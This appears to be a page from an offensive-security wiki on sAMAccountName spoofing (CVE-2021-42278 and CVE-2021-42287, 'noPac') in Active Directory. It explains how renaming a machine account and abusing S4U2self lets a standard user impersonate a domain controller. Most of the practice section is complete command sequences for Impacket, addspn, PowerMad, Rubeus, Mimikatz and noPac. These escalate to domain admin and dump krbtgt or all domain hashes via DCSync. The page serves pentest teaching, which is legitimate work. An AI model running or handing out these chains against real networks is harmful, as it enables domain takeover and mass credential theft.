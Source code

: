 ```yaml
---
description: CVE-2021-42278 and CVE-2021-42287
---
```


# sAMAccountName spoofing

## Theory

In November 2021, two vulnerabilities caught the attention of many security researchers as they could allow domain escalation from a standard user.

### CVE-2021-42278 - Name impersonation

Computer accounts should have a trailing `$` in their name (i.e. `sAMAccountName` attribute) but no validation process existed to make sure of it. Abused in combination with CVE-2021-42287, it allowed attackers to impersonate domain controller accounts.

### CVE-2021-42287 - KDC bamboozling

When requesting a Service Ticket, presenting a TGT is required first. When the service ticket is asked for is not found by the KDC, the KDC automatically searches again with a trailing `$`. What happens is that if a TGT is obtained for `bob`, and the `bob` user gets removed, using that TGT to request a service ticket for another user to himself (S4U2self) will result in the KDC looking for `bob$` in AD. If the domain controller account `bob$` exists, then `bob` (the user) just obtained a service ticket for `bob$` (the domain controller account) as any other user :exploding\_head:.

{% hint style="success" %}
As Elad Shamir said in his article [Wagging the Dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#solving-a-sensitive-problem), "S4U2Self works for a user marked as sensitive for delegation and a member of the Protected Users group".
{% endhint %}

## Practice

### Machine Account

The ability to edit a machine account's `sAMAccountName` and `servicePrincipalName` attributes is a requirement to the attack chain. The easiest way this can be achieved is by creating a computer account (e.g. by leveraging the [MachineAccountQuota](../domain-settings/machineaccountquota.md) domain-level attribute if it's greater than 0). The creator of the new machine account has enough privileges to edit its attributes. Alternatively, taking control over the owner/creator of a computer account should do the job.

The attack can then be conducted as follows.

1. Clear the controlled machine account `servicePrincipalName` attribute of any value that points to its name (e.g. `host/machine.domain.local`, `RestrictedKrbHost/machine.domain.local`)&#x20;
2. Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing `$` -> [CVE-2021-42278](samaccountname-spoofing.md#cve-2021-42278-name-impersonation)
3. Request a TGT for the controlled machine account
4. Reset the controlled machine account `sAMAccountName` to its old value (or anything else different than the Domain Controller's name without the trailing `$`)
5. Request a service ticket with S4U2self by presenting the TGT obtained before -> [CVE-2021-42287](samaccountname-spoofing.md#cve-2021-42287-kdc-lookup)
6. Get access to the domain controller (i.e. [DCSync](../credentials/dumping/dcsync.md))

{% hint style="warning" %}
Some of the tools and features that allow exploitation of these vulnerabilities are still in development

* Impacket's getST: [https://github.com/SecureAuthCorp/impacket/pull/1202](https://github.com/SecureAuthCorp/impacket/pull/1202)
* Impacket's renameMachine: [https://github.com/SecureAuthCorp/impacket/pull/1224](https://github.com/SecureAuthCorp/impacket/pull/1224)
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, the steps mentioned above can be conducted with

* [krbelayx](https://github.com/dirkjanm/krbrelayx)'s (Python) addspn script for the manipulation of the computer's SPNs
* [Impacket](https://github.com/SecureAuthCorp/impacket)'s (Python) scripts (addcomputer, renameMachine, getTGT, getST, secretsdump) for all the other operations

```bash
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py --clear -t 'ControlledComputer$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -altservice 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
```

[noPac.py](https://github.com/Ridter/noPac) (Python) is an automated alternative that can be used to scan and abuse unpatched targets from a UNIX environnment.

```bash
scanner.py $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP
noPac.py $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP --impersonate Administrator -dump
```

{% hint style="success" %}
When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (10th of December, 2021), the SAMR method creates the account without SPNs, which allows to skip step #1.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
On Windows systems, the steps mentioned above can be conducted with&#x20;

* [PowerMad](https://github.com/Kevin-Robertson/Powermad/)'s (PowerShell) `New-MachineAccount` and `Set-MachineAccountAttribute` functions for the creation and manipulation of a computer account
* with [Rubeus](https://github.com/GhostPack/Rubeus) (C#) for the requests of Kerberos TGT and Service Ticket
* with [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) for the [DCSync](../credentials/dumping/dcsync.md) operation

```powershell
# 0. create a computer account
$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

# 1. clear its SPNs
Set-DomainObject -Identity 'ControlledComputer$' -Clear 'serviceprincipalname' -Verbose

# 2. rename the computer (computer -> DC)
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose

# 3. obtain a TGT
Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap

# 4. reset the computer name
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]

# 6. DCSync
(mimikatz) lsadump::dcsync /domain:domain.local /kdc:DomainController.domain.local /user:krbtgt 
```

[noPac](https://github.com/cube0x0/noPac) (C#) is an automated alternative that can be used to scan and abuse unpatched targets.

```powershell
noPac.exe scan -domain domain.local -user "lowpriv" -pass "lowpriv"
noPac.exe -domain mcafeelab.local -user "lowpriv" -pass "lowpriv" /dc dc.domain.local /mAccount pillemann11 /mPassword pilleman11 /service ldaps /ptt /impersonate Administrator
(mimikatz) lsadump::dcsync /domain:mcafeelab.local /all
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
In the screenshot below, the `-spn` argument is used in the `getST.py` command. The option is to be replaced with `-altservice`.
{% endhint %}

![](<../../../.gitbook/assets/samaccountname spoofing.png>)

### User account

An alternative to using computer accounts is to have enough permissions against a user account (cf. [Access Controls abuse](../dacl/)) to edit its `sAMAccountName` attribute (i.e. `WriteProperty` on the attribute, or on the « general information » or « public information » property sets, or `GenericWrite`, or `GenericAll`).&#x20;

This attack path also requires knowledge of the user account password or hash (to obtain a TGT), which can be obtained (or set) in many ways (e.g. [Targeted Kerberoasting](../dacl/targeted-kerberoasting.md), [Shadow Credentials](shadow-credentials.md), [Forced Password Change](../dacl/forcechangepassword.md)).

Appart from the computer account creation and SPNs manipulation, the exploitation steps are the same as with a [machine account](samaccountname-spoofing.md#machine-account). If the account has SPNs that point to its name, they will have to be removed for the renaming operation to work.

## Resources

{% embed url="https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html" %}

{% embed url="https://exploit.ph/more-samaccountname-impersonation.html" %}

{% embed url="https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing" %}

{% embed url="https://twitter.com/snovvcrash/status/1471829627765239816" %}
sAMAccountName exploitation through assembly execution
{% endembed %}
